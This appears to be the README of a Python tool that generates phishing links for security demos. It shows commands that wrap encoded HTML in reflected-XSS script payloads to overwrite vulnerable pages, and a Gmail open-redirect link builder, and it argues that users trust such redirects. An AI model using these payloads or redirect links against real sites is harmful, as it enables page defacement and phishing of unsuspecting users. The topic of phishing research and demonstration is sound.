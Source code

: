 # gonephishing


Generate phishing urls for demos and fun (serious security research).

### clone

git clone --recurse-submodules https://github.com/vlp443/gonephishing.git

### Requires

pip3 install htmlmin

### Usage

#### Reflected XSS
This is all very new so treat it gently. It may not have long to go (chrome browser security blocks the examples given Firefox is ok IE/Edge probably okay not tested yet)

 Generate a minified version of an html file and optionally encode it then inject it into some javascript/html and urlencode the entire string.  
 
 The javascript must contain a %s field to mark location to inject html into.  
 
 Current supported encoders are b64 (base64) and hex ('\xAA\xBB' etc).

~~~
python3 ./gonephishing.py --xss --html "@./text.html" --js '<script>document.body.innerHTML=atob("%s")</script>'  --encoders --encoders b64

python3 ./gonephishing.py --xss --html "@./text.html" --js '<script>document.body.innerHTML=("%s")</script>'  --encoders --encoders hex

python3 ./gonephishing.py --xss --html "@./text.html" --js '<script>document.body.innerHTML=atob("%s")</script>'  --encoders --encoders b64,hex 
~~~
Paste the generated link into the vulnerable request parameter and the page should be overwritten with the supplied html.


#### GMAIL Redirect

~~~
python3 ./gonephishing.py --gmail  --dest https://cutecatsinhats.com/ 
~~~


### About
The OWASP top ten 2013 included A10-Unvalidated Redirects and Forwards with the following description:
Web applications frequently redirect and forward users to other pages and websites, and use untrusted data to determine the destination pages. Without proper validation, attackers can redirect victims to phishing or malware sites, or use forwards to access unauthorized pages. 

This item does not appear in the top ten 2017

google.com has over 40 unsecured redirects  This is unlikely to change as google do not see it as a vulnerability. https://sites.google.com/site/bughunteruniversity/nonvuln/open-redirect


I would expect that the majority of users would trust a site if they were redirected via mail server domain that they were logged into.  This would then cause the user to be more likely to accept a squatted domain of the type described in the quiz below due to the fact that they trust the url via which they were redirected.
 https://phishingquiz.withgoogle.com/



